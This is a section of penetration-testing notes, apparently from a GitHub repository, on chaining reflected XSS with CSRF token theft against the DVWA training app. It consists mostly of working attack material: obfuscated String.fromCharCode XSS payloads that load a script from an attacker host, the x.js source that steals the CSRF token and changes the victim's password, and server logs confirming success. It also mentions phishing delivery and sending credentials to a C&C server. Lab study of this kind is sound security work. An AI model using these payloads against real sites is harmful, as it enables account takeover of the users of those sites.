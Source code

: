 #### 4.1. XSS + CSRF bypass (high security DVWA)

Attempting CSRF bypass via XSS.
Note: SoP does not allow access to the DOM of an `iframe` - therefore we cannot fetch the CSRF token from the target page.

#### 4.1.1. find XSS on victim website

```javascript
<!-- alert(123) -->
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,50,51,41))>
```


#### 4.1.2. prepare JavaScript payload (as remote JS file) that collects CSRF token - `x.js`

```javascript
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
if (xhr.readyState === 4)  { 
	res.innerHTML = xhr.responseText;
	user_token = res.querySelector('[name="user_token"]').value;
}};
xhr.send(null);
```


#### 4.1.3. prepare XSS payload that loads and executes remote JS file

##### a) low security
```
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror="var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);">
```

##### b) high security (no JS errors, hidden image)

Decoded:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval("var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);") style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Encoding for `eval()`:
```js
x = "abcd";
var c=[]; for (i=0; i<x.length;i++) {c.push(x[i].charCodeAt())}
// c = [97, 98, 99, 100]
String.fromCharCode(97, 98, 99, 100) // "abcd"
```

Payload test for `console.log`:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(99,111,110,115,111,108,101,46,108,111,103,40,49,50,51,41)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Final payload:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```
Note: payload could be fully URL-encoded when used together with phishing/social-engineering attack `(^_^)`


##### c) alternative payload (placing the the script inside `<head></head>`)
```
var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.getElementsByTagName('head').appendChild(x);"
```


#### 4.1.4. prepare JavaScript payload (as remote JS file) that runs CSRF attack via XSS

File: `x.js`

```javascript
function csrfChangePass(token, pass) {
   var xhr = new XMLHttpRequest();
   var params = '?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
   
   xhr.open("GET", "/vulnerabilities/csrf/" + params, true);
   xhr.withCredentials = true;
   var body = ""; // params data could be here if POST request
   var aBody = new Uint8Array(body.length);
   for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i); 
   xhr.send(new Blob([aBody]));
}

history.pushState('', '', document.location.pathname)
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
   if (xhr.readyState === 4)  {
      res.innerHTML = xhr.responseText;
	  user_token = res.querySelector('[name="user_token"]').value
	  if (user_token !== null) {
            csrfChangePass(user_token, '123');
	  }
   }
};
xhr.send(null);
```


#### 4.1.5. inspect logs server-side to check desired outcome

```
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/xss_r/?name=Alex%3Cimg%20onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%20style=%22width:0;height:0;border:0;%22%20src=%22/dvwa/images/logo.png%22%3E HTTP/1.1" 200 1961 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NO LOGS NO CRIME] "GET /vulnerabilities/csrf/ HTTP/1.1" 200 1770 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/csrf/?user_token=da735f06068570ed350a8237ab6ce3b0&password_new=123&password_conf=123&Change=Change HTTP/1.1" 200 1783 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
```


#### 4.1.6. Attack flow

- victim executes XSS payload on their behalf (in the browser)
- XSS payload loads remote JS file that executes malicious code in the context of the current user-session
  * 1st XHR request to fetch the CSRF token
  * 2nd XHR request to change user password on form protected by CSRF token
- current user password is changed
- extra: attacker can log user-name & password by sending XHR requests to their C&C server
- extra: after successful logging attacker can tear-down the C&C endpoint and spawn another (random) one for further affairs
